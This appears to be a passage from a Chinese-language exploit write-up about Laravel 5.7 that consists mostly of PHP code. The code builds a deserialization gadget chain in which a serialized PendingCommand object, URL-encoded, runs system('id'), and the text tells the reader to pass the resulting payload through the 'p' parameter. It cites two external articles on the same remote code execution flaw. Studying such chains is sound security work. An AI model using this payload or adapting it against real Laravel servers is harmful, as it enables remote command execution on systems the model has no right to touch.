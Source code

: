 ```php
}

namespace Illuminate\Auth{
    class GenericUser{
        protected $attributes;
        public function __construct(array $attributes){
            $this->attributes = $attributes;
        }
    }
}


namespace Illuminate\Foundation{
    class Application{
        protected $hasBeenBootstrapped = false;
        protected $bindings;

        public function __construct($bind){
            $this->bindings=$bind;
        }
    }
}
?>
<?php
//chain.php
include("gadgets.php");

echo urlencode(serialize(new Illuminate\Foundation\Testing\PendingCommand("system",array('id'),new Illuminate\Auth\GenericUser(array("expectedOutput"=>array("0"=>"1"),"expectedQuestions"=>array("0"=>"1"))),new Illuminate\Foundation\Application(array("Illuminate\Contracts\Console\Kernel"=>array("concrete"=>"Illuminate\Foundation\Application"))))));
?>
```

运行chain.php文件即可得到payload，将payload传入p参数即可。

**参考链接**

https://laworigin.github.io/2019/02/21/laravelv5-7%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96rce/

https://xz.aliyun.com/t/5510#toc-1